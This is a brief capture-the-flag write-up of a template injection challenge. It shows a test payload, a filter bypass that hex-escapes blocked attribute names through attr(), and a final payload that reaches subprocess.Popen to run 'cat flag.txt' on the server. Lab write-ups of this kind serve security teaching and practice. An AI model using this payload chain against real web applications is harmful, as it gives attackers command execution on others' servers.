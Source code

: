 This is a *template injection* challenge.

Challenge description--

![Alt_Text](https://i.imgur.com/ic7coj4.png)

Challenge url--

![Alt_Text](https://i.imgur.com/sDtGnmo.png)

According to the source code, our payload is rendered as template. Let's test with basic payload `{{7*7}}`. It returns 49. 

![Alt_Text](https://i.imgur.com/6G2C9GF.png)

There is also some filters. Since `las,bas,bal` are banned, we can't use `class,base,global`. We can bypass this with `attr()`. Let's check the subclasses `{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()}}`.

![Alt_Text](https://i.imgur.com/P7Rc64l.png)

I found the index of `<class 'subprocess.Popen'>` at 360. Our final payload -> `{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}`.

![Alt_Text](https://i.imgur.com/xelQWh5.png)

Thank you for reading! :cowboy_hat_face: :cowboy_hat_face:



